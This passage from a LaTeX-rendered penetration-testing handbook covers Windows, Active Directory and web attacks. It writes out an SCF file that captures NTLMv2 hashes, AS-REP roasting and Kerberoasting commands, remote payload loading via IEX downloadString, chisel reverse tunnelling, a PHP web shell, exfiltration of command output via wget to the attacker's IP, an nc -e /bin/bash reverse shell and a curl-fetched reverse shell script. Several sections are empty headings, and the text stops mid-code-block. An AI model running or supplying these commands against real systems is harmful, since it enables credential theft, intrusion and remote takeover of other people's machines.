      
\includegraphics[width=0.9\linewidth]{images/bit-flip-fetchresponse} \caption{sql error based order by 100}\label{fig:unnamed-chunk-14}
      \end{figure}
  \item
    Generate regexp by selecting the output you want to analyse

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/bit-flip-selectresponse} \caption{sql error based order by 100}\label{fig:unnamed-chunk-15}
      \end{figure}
  \end{itemize}
\item
  Click on start attack button

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/bit-flip-startattack} \caption{sql error based order by 100}\label{fig:unnamed-chunk-16}
   \end{figure}
\item
  Find and select a row where you see \emph{You are currently logged in as admin!}
\end{enumerate}

You can then copy the payload and past it in a EditThisCookie tool.

\hypertarget{shellshock}{%
\section*{ShellShock}\label{shellshock}}
\addcontentsline{toc}{section}{ShellShock}

\hypertarget{xxe-xml-external-entity-injection}{%
\section*{XXE (XML External Entity Injection)}\label{xxe-xml-external-entity-injection}}
\addcontentsline{toc}{section}{XXE (XML External Entity Injection)}

\hypertarget{blind-xxe}{%
\section*{Blind XXE}\label{blind-xxe}}
\addcontentsline{toc}{section}{Blind XXE}

\hypertarget{domain-zone-transfer}{%
\section*{Domain Zone Transfer}\label{domain-zone-transfer}}
\addcontentsline{toc}{section}{Domain Zone Transfer}

\hypertarget{insecure-deserialization}{%
\section*{Insecure Deserialization}\label{insecure-deserialization}}
\addcontentsline{toc}{section}{Insecure Deserialization}

\hypertarget{type-juggling}{%
\section*{Type Juggling}\label{type-juggling}}
\addcontentsline{toc}{section}{Type Juggling}

\hypertarget{ssti}{%
\section*{SSTI}\label{ssti}}
\addcontentsline{toc}{section}{SSTI}

Flask/Jinja2 -\textgreater{} Server Side Template Injection

\hypertarget{windows-vulnerability}{%
\chapter*{Windows vulnerability}\label{windows-vulnerability}}
\addcontentsline{toc}{chapter}{Windows vulnerability}

\hypertarget{use-scf-file-to-get-the-ntlmv2-hash}{%
\section*{Use scf file to get the NTLMv2 hash}\label{use-scf-file-to-get-the-ntlmv2-hash}}
\addcontentsline{toc}{section}{Use scf file to get the NTLMv2 hash}

\textbf{SCF} (Shell Command File) are simple files that can be used to perform a connection to the attacker machine by using the
\textbf{SMB} protocol. The intersting purpose of those kind of files is that they can perform small and limited set of operations,
but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit of this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim one.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  in a shell, create a shared folder and let it open

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  create the malicious scf file

\begin{verbatim}
[Shell]
Command=2
IconFile=\\10.10.10.11\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
\end{verbatim}
\item
  copy the malicious file in the desired victim shared resource
\end{enumerate}

That's it\ldots{} Check the shared folder that you have created previously and if there is an interaction between the victim
and the file, you will receive the NTLMv2 hash of the victim.

You can then try to crack the hash with \textbf{john}

\hypertarget{active-directory-enumeration}{%
\section*{Active Directory Enumeration}\label{active-directory-enumeration}}
\addcontentsline{toc}{section}{Active Directory Enumeration}

As soon as we see port 88 and 389 or if victime machine changed the port number and we see Kerberos and LDAP, Attacker can estimate that the
victim machine is a Domain Controller.

If we already have credentials, we can enumerate the Active Directory with the bloodhound package

\hypertarget{injesting-bloodhound-from-the-attacker-machine}{%
\subsection*{Injesting bloodhound from the attacker machine}\label{injesting-bloodhound-from-the-attacker-machine}}
\addcontentsline{toc}{subsection}{Injesting bloodhound from the attacker machine}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Install bloodhound injester

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m venv venv}
\BuiltInTok{source}\NormalTok{ venv/bin/activate}
\ExtensionTok{pip}\NormalTok{ install bloodhound}
\end{Highlighting}
\end{Shaded}
\item
  Run enumeration

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound-python}\NormalTok{ -d victim.local -u username -p }\StringTok{"Password"}\NormalTok{ -gc machine.victim.local -c all -ns 10.10.10.11}
\end{Highlighting}
\end{Shaded}
\item
  New json files have been created in your working directory

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la *.json}
\FunctionTok{zip}\NormalTok{ htblocal.zip *.json }
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{injesting-bloodhound-from-the-victim}{%
\subsection*{Injesting bloodhound from the victim}\label{injesting-bloodhound-from-the-victim}}
\addcontentsline{toc}{subsection}{Injesting bloodhound from the victim}

You can also do the injester technique from the victim machine it self with the \textbf{Sharphound.ps1} script.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1}
\FunctionTok{cat}\NormalTok{ SharpHound.ps1 }\KeywordTok{|} \FunctionTok{grep} \StringTok{"Invoke"}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Then in the victim machine, get the sharphound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{IEX}\NormalTok{(}\FunctionTok{New-Object}\NormalTok{ Net.}\FunctionTok{WebClient}\NormalTok{).}\FunctionTok{downloadString}\NormalTok{(}\StringTok{"http://10.10.10.11/SharpHound.ps1"}\NormalTok{)}
\NormalTok{Invoke-BloodHound -CollectionMethod All}
\end{Highlighting}
\end{Shaded}

When the SharpHound is finished, you will see a \texttt{.zip} file in the victim machine that you need now to transfer on the
attacker one.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ zipfile.}\FunctionTok{zip}\NormalTok{ \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder\textbackslash{}zipfile.}\FunctionTok{zip}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{install-bloodhound-and-run-it}{%
\subsection*{Install bloodhound and run it}\label{install-bloodhound-and-run-it}}
\addcontentsline{toc}{subsection}{Install bloodhound and run it}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Install bloodhound and neo4j

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install neo4j bloodhound}
\end{Highlighting}
\end{Shaded}
\item
  Check that alternatives are not on java11

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{update-alternatives}\NormalTok{ --config java}

\CommentTok{#dont user java 11}
\end{Highlighting}
\end{Shaded}
\item
  run neo4j service

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ neo4j console}
\end{Highlighting}
\end{Shaded}
\item
  run bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound}\NormalTok{ --no-sandbox }\OperatorTok{&>}\NormalTok{ /dev/null }\KeywordTok{&}
\BuiltInTok{disown}
\end{Highlighting}
\end{Shaded}
\item
  Connect bloodhound to neo4j database
\item
  Drag \& Drop the \textbf{.zip} file and go to Analysis tab

  \begin{itemize}
  \tightlist
  \item
    Find all Domains Admins -\textgreater{} Show Administrator of the domain
  \item
    Find Shortest Paths to Domain Admins -\textgreater{} Fastest way to be converted as Administrator
  \item
    List all Kerberoastable Accounts -\textgreater{} Find users in wich attacker can execute a Kerberoasting attack (need of credentials)
  \item
    Find Principals with DCSync Right -\textgreater{} Attacker can run a secretsdump attack to get all users hashes when user have GetChangesAll right.
  \end{itemize}
\end{enumerate}

\hypertarget{asreproasing-on-kerberos}{%
\section*{ASREPRoasing on Kerberos}\label{asreproasing-on-kerberos}}
\addcontentsline{toc}{section}{ASREPRoasing on Kerberos}

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting.
As soon as we have a username, we can use the GetNPUsers script from impacket to retrieve it's password Hash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetNPUsers.py}\NormalTok{ domain/username -request -no-pass -dc-ip 10.10.10.11}

\CommentTok{#OUTPUT}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Getting TGT for username}
\VariableTok{$krb5asrep$2}\ExtensionTok{3}\VariableTok{$username}\NormalTok{@domain:00c4e7b0ce1ad503425a4b0161021fe5}\VariableTok{$8}\NormalTok{d8d475c06d1fb191d431055f3dc5cf63e22ebcbb6cdf4a7cb122e}
\ExtensionTok{8f16374f221327e13be255eb60df449969b864abf3322c2c69c16738b9cbbd47ff1a67727656d7c7581c0df55280d19d4553c92fe86fb313fd7fb}
\ExtensionTok{843bd2e7796183d005edf241d9c89917239f29834ce6595f7359911e427b21a16154e552536dd1e1c66280e240ee9ea6d9d7ca5c462c5abf9a57ca}
\ExtensionTok{46db4af7c4a43b4261f5560257c58e6e1cc51ebe742dbeb903a7379ae7e2db8882018922feed8ae18ee799621de5f64bf0c10284e66a5017a2f6a13}
\ExtensionTok{b0ff132e99e715ecded126bdbd6347dd93a0cfff96a586fb5682ce5e04b2960b67401854}
\end{Highlighting}
\end{Shaded}

You can then copy the TGT in a file and try to crack it with john

\hypertarget{kerberoasting-attack}{%
\section*{Kerberoasting attack}\label{kerberoasting-attack}}
\addcontentsline{toc}{section}{Kerberoasting attack}

A \textbf{Kerberoasting attack} can be done against Kerberoastable users that you find with Bloodhound and need at least a
user and password of a user from the domain.

\hypertarget{kerberoasting-attack-on-victim-machine-with-rubeus}{%
\subsection*{Kerberoasting attack on victim machine with rubeus}\label{kerberoasting-attack-on-victim-machine-with-rubeus}}
\addcontentsline{toc}{subsection}{Kerberoasting attack on victim machine with rubeus}

\textbf{Rubeus.exe} is a tool that can perform Kerberoasting attack into the victim machine.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Download rubeus.exe on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries}
\end{Highlighting}
\end{Shaded}
\item
  Send the rubeus to the victim machine and execute it

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/Rubeus.}\FunctionTok{exe}\NormalTok{ -OutFile Rubeus.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Execute ther Kerberoasting attack on the victim machine (in this example we will perform a Kerberoasting with alternate credentials)

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}temp\textbackslash{}Rubeus.}\FunctionTok{exe}\NormalTok{ -> check the roating possibilities}
\NormalTok{C:\textbackslash{}temp\textbackslash{}Rubeus.}\FunctionTok{exe}\NormalTok{ kerberoast /creduser:domain.}\FunctionTok{local}\NormalTok{\textbackslash{}user /credpassword:password1234}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

You will then see the hash that you can copy into the attacker machine and execute a hashcrack with \textbf{john}.

\hypertarget{kerberoasting-attack-from-attacker-machine-with-impacket-getuserspns}{%
\subsection*{Kerberoasting attack from attacker machine with impacket-GetUserSPNs}\label{kerberoasting-attack-from-attacker-machine-with-impacket-getuserspns}}
\addcontentsline{toc}{subsection}{Kerberoasting attack from attacker machine with impacket-GetUserSPNs}

\textbf{Impacket-GetUserSPNs} is a script that can perform kerberoasting attack from the attacker machine. To do that,
the victim machine needs to have the port 88 open and attacker needs to have credentials of at list one domain user.

If port 88 is not externaly opened but you have access to the victim machine by a shell, you can make a reverse port
forwarding to achieve the \textbf{Kerberoasting attack} on local.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Sync clock with the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rdate}\NormalTok{ -n 10.10.10.10}
\end{Highlighting}
\end{Shaded}
\item
  Download chisel and build it on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\FunctionTok{du}\NormalTok{ -hc chisel}
\ExtensionTok{upx}\NormalTok{ brute chisel}
\FunctionTok{du}\NormalTok{ -hc chisel}
\end{Highlighting}
\end{Shaded}
\item
  Download chisel.exe on \href{https://github.com/jpillora/chisel/releases/tag/v1.7.6}{github chisel release} and download the windows\_amd64.gz
\item
  Transfer chisel.exe to the victim machine

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ Downloads/Firefox/chisel_1.7.6_windows_amd64.gz chisel.exe.gz}
\FunctionTok{gunzip}\NormalTok{ chisel.exe.gz}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri htttp://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/chisel.}\FunctionTok{exe}\NormalTok{ -outFile chisel.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  On the attacker machine create reverse server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
\item
  Port forward victim ports to attacker reverse server

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}temp\textbackslash{}chisel.}\FunctionTok{exe}\NormalTok{ client 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{:1234 R:88:127.}\FunctionTok{0}\NormalTok{.}\FunctionTok{0}\NormalTok{.}\FunctionTok{1}\NormalTok{:88}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Thats it. we can now execute the Kerberoasting attack. Of course the above commands are necessary if the port 88 are not
externaly opened.

\begin{itemize}
\item
  in the case of a victim with port 88 opened the attack will look as following:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-GetUserSPNs}\NormalTok{ domain.local/user:password -request}
\end{Highlighting}
\end{Shaded}
\item
  in the case of having to perform a reverse port forwarding

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-GetUserSPNs}\NormalTok{ domain.local/user:password -request -dc-ip 127.0.0.1}
\end{Highlighting}
\end{Shaded}
\end{itemize}

You will then see the hash that you can copy in a file and execute a hashcrack with \textbf{john}.

\hypertarget{part-vuln-exploit-gaining-access}{%
\part{Vuln exploit \& Gaining Access}\label{part-vuln-exploit-gaining-access}}

\hypertarget{beyond-remote-code-execution}{%
\chapter*{Beyond Remote Code Execution}\label{beyond-remote-code-execution}}
\addcontentsline{toc}{chapter}{Beyond Remote Code Execution}

\textbf{Remote code execution} occurs after some vulnerabilities exploitation and allows users to execute
operating system commands on a remote system.

You always have to be aware of command type execution language. Sometimes bash command are not working, so try with
languages. If the website is in php try to call phpinfo(); for example. Then you will know that your remote code execution will
look like system(`whoami');

\hypertarget{checking-if-code-execution-occurs}{%
\chapter*{Checking if code execution occurs}\label{checking-if-code-execution-occurs}}
\addcontentsline{toc}{chapter}{Checking if code execution occurs}

Sometimes attacker don't realy know if remote code execution occurs because no direct output are visible
to him. Here we will see some technics to know if code execution runs or not.

\hypertarget{time-sleep-technic}{%
\section*{Time sleep technic}\label{time-sleep-technic}}
\addcontentsline{toc}{section}{Time sleep technic}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GET}\NormalTok{ /script.php?cmd=sleep+5}\KeywordTok{&}\VariableTok{ok=}\NormalTok{ok }\ExtensionTok{HTTP/1.1}
\end{Highlighting}
\end{Shaded}

\hypertarget{check-network-connectivity}{%
\section*{Check network connectivity}\label{check-network-connectivity}}
\addcontentsline{toc}{section}{Check network connectivity}

Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ icmp}
\end{Highlighting}
\end{Shaded}

remote code execution ping

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 5 }\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-wget-and-netcat-to-execute-command}{%
\section*{Use wget and netcat to execute command}\label{use-wget-and-netcat-to-execute-command}}
\addcontentsline{toc}{section}{Use wget and netcat to execute command}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

  \begin{quote}
  {[}!{]} NOTE: use \texttt{rlwrap\ nc\ -nlvp\ 443} for windows machines
  \end{quote}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://}\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{:443/}\KeywordTok{`}\FunctionTok{whoami}\KeywordTok{`}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{quote}
{[} ! {]} NOTE: for big files or also for php files use the \textbar{} base64 command
\texttt{wget\ http://\textless{}pirate\_ip\textgreater{}:443/\textasciigrave{}id\textbar{}base64\textasciigrave{}}
\end{quote}

\hypertarget{visible-remote-code-execution}{%
\chapter*{Visible remote code execution}\label{visible-remote-code-execution}}
\addcontentsline{toc}{chapter}{Visible remote code execution}

\textbf{Visible remote code execution} can be performed with code looking like that:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
\KeywordTok{echo} \StringTok{"<html>"}\OtherTok{;}
\KeywordTok{echo} \StringTok{"<pre>"}\OtherTok{;}
\KeywordTok{echo} \StringTok{"<form method=GET><input type=text name=cmd style='width:400px;'>"}\OtherTok{;}
\KeywordTok{echo} \StringTok{"<input type=submit value=Execute style='height:34px;'></form>"}\OtherTok{;}
\KeywordTok{$a}\NormalTok{ = }\FunctionTok{system}\OtherTok{(}\KeywordTok{$_GET}\OtherTok{[}\StringTok{"cmd"}\OtherTok{]);}
\KeywordTok{echo} \StringTok{"</pre></html>"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

When the remote code execution response is visible, there are some things to check:

\begin{itemize}
\tightlist
\item
  Which user serves the service\\
\item
  Where\\
\item
  Interesting files content\\
\item
  Binaries
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ifconfig}
\FunctionTok{whoami}
\FunctionTok{id}
\BuiltInTok{pwd}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{cat}\NormalTok{ /etc/group}
\FunctionTok{which}\NormalTok{ python}
\FunctionTok{which}\NormalTok{ curl}
\FunctionTok{which}\NormalTok{ nc}
\FunctionTok{which}\NormalTok{ wget}
\end{Highlighting}
\end{Shaded}

\hypertarget{gaining-access-throw-remote-code-execution}{%
\chapter*{Gaining access throw remote code execution}\label{gaining-access-throw-remote-code-execution}}
\addcontentsline{toc}{chapter}{Gaining access throw remote code execution}

\hypertarget{listen-and-connection-with-netcat}{%
\section*{Listen and connection with netcat}\label{listen-and-connection-with-netcat}}
\addcontentsline{toc}{section}{Listen and connection with netcat}

\textbf{Netcat} also known as \textbf{nc} is a utility that allows to open TCP or UDP connections throw the network.

How it work:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -e /bin/bash }\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{ 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{connection-with-curl}{%
\section*{Connection with curl}\label{connection-with-curl}}
\addcontentsline{toc}{section}{Connection with curl}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  attacker http server (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 9090}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /tmp/r}
\ExtensionTok{curl}\NormalTok{ http://}\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{:9090/reverse_tcp_malicious.sh -o /tmp/r}
\FunctionTok{chmod}\NormalTok{ +x /tmp/r/reverse_tcp_malicious.sh}
\end{Highlighting}
\end{Shaded}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/tmp/r}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{spawning-a-terminal-from-a-shell}{%
\section*{Spawning a terminal from a shell}\label{spawning-a-terminal-from-a-shell}}
\addcontentsline{toc}{section}{Spawning a terminal from a shell}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Note: stty -a is done in the attacker shell to know rows and columns size
\end{quote}

\hypertarget{use-sql-injection-for-create-a-reverse-shell}{%
\chapter*{Use SQL Injection for create a reverse shell}\label{use-sql-injection-for-create-a-reverse-shell}}
\addcontentsline{toc}{chapter}{Use SQL Injection for create a reverse shell}

\hypertarget{postgresql}{%
\section*{Postgresql}\label{postgresql}}
\addcontentsline{toc}{section}{Postgresql}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Check the db VERSION

\begin{verbatim}
' UNION SELECT NULL, NULL, NULL, NUUL, VERSION() --
\end{verbatim}
\item
  Create a table for execute commands

\begin{verbatim}
